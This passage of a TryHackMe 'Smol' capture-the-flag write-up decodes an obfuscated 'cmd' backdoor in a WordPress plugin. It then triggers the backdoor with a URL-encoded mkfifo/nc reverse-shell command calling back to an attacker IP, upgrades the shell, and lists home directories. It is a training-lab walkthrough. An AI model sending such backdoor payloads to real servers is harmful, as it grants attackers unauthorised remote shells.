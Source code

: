 We still need more enumeration there is encoded things.

Lets decode the variable names:

```bash
php -r 'echo "\143\155\x64" . ":" . "\143\x6d\144";'
cmd:cmd
```

So this is basicly a backdoor we can use.

But we can't directly call this plugin. We need to call this plugin somehow.


![Desktop View](/assets/img/2025-07-04-TryHackMe-Smol/photo4.png){: width="972" height="589" }

As you can see plugin calls itself on starter page.

So we can use this to get reverse shell.

Firstly get a reverse shell from [RevShells](https://www.revshells.com/)

And change the curl command for yourself:

```bash
❯ curl 'http://www.smol.thm/wp-admin/index.php/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.21.206.128%204444%20%3E%2Ftmp%2Ff'
```

Btw curl doesn't work in this case becouse we don't have cookies in the curl go to the browser and paste the link. And you will get reverse shell


Lets upgrade the shell first:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
# 
stty raw -echo;fg
reset
```


And we are logged in as www-data.


```bash
www-data@smol:/home$ ls -la
total 24
drwxr-xr-x  6 root  root     4096 Aug 16  2023 .
drwxr-xr-x 18 root  root     4096 Mar 29  2024 ..
drwxr-x---  2 diego internal 4096 Aug 18  2023 diego
drwxr-x---  2 gege  internal 4096 Aug 18  2023 gege
drwxr-x---  5 think internal 4096 Jan 12  2024 think
drwxr-x---  2 xavi  internal 4096 Aug 18  2023 xavi
```
